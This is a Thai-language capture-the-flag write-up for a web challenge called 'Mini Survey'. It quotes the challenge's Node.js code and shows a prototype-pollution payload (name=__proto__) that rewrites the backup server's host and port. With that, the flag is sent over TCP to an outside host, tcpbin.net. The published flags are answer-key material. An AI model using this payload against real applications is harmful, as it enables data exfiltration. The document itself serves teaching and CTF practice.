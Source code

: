 # web/Mini Survey

## index.js
```js
const updateDBs = require("./serverComs");
...
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };
    
    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
...
```
งืม~~ ยังไม่เห็นไรมาก ลองไปดู func updateDBs ดีกว่า

## serverComs.js
```js
...
backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {backupServerHost = data.host}
    if (data.port != undefined) {backupServerPort = data.port}

    const options = {host: backupServerHost || "localhost", port: backupServerPort || "8888" };
    console.log("options:",options);

    const socket = net.connect(options, () => {
        socket.write(postData);
        socket.end();
    });
    ...
}
function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}
...
```
func updateDBs จะเพิ่ม flag เข้าไปใน commData (dataObj ที่ถูก clone มา) และก็จะเรียก func sendData เพื่อเชื่อมต่อ แบบ tcp ไปยังที่ไหนสักที่ และก็ส่ง postData ที่มี flag อยู่ไป

## ทำไงล่ะทีนี้?
ผมไปเจอ https://t.ly/EgVId พบว่าเราสามารถใช้ `__proto__` เพื่อไป set prop ของ object อื่นๆได้ (ถ้าทฤษฎีเพี้ยนอย่าโกรธกันเลย) ผมก็เลยได้ script เพื่อเอา flag คร่าวๆประมาณนี้
```python
from requests import request
payload = 'name=__proto__&city=port&pollutionRate=47183' # city = key, pollutionRate = value
request("POST", "??", headers={'Content-Type':'application/x-www-form-urlencoded'}, data=payload)
```
ส่วน host, port ก็ใช้ tcpbin.net เอาครับ

## Flag
`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
`nite{9wd_t0_th3_r35cu3_dp54kf}` fake flag in prod 🤣
